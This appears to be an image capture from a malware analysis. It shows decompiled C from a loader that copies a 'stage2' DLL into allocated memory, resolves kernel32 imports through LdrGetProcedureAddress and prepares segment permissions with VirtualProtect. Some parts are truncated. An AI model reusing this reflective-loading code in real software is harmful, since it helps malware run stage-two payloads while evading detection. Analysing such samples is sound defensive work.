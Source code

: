 ```c
      do {                           // copy more code
        for ( j = 0i64; j < *v22; alloc_mem[v23 + *(v22 - 1)] = a1_stage2_dll[i] ) {
          v23 = j;
          j = (j + 1);
          i = v23 + *(v22 + 1);
        }
        ++v20;
        v22 += 40;
      } while ( v20 < *(v21 + 3) );
    }

    /* ..... TRUNCATED FOR BREVITY ..... */

    /* Load kernel32.dll and other DLLs and resolve all functions from IAT */
    if ( v41 ) {
      v42 = v87;
      do {
        kernel32_base = LoadLibraryA(&alloc_mem[v41], i, v24, j);// load: "KERNEL32.dll"
        kernel32_base_ = kernel32_base;
        v44 = &alloc_mem[*v40];
        kernel32_IAT = &alloc_mem[*(v40 + 4)];
        v46 = *v44;
        if ( *v44 ) {              // resolve all function addresses from kernel32.dll
          while ( 1 ) {
            if ( v46 >= 0 ) {
              i_1 = 0;
              v50 = &alloc_mem[v46 + 2];
              if ( *v50 ) {
                func_name_ptr = &alloc_mem[v46 + 2];
                do {
                  ++func_name_ptr;
                  ++i_1;
                } while ( *func_name_ptr );
              }
              v78 = v50;
              v47 = 0i64;
              p_ordinal = &ordinal;
              LOWORD(ordinal) = i_1;
              HIWORD(ordinal) = i_1;
            }
            else {
              v47 = *v44;
              p_ordinal = 0i64;
            }
            LdrGetProcedureAddress(kernel32_base_, p_ordinal, v47, kernel32_IAT);
            v44 += 8;
            kernel32_IAT += 8;
            v46 = *v44;
            if ( !*v44 )
              break;
            kernel32_base_ = kernel32_base;
          }
        }
        if ( v42 && v32 > 1 ) Sleep(1000 * v35);
        v41 = *(v40 + 8);
        v40 += 20;
      } while ( v41 );
      v21 = v99;
    }
    LdrGetProcedureAddress_ = LdrGetProcedureAddress;
  }

  /* Use VirtualProtect to adjust all segment permissions */
```
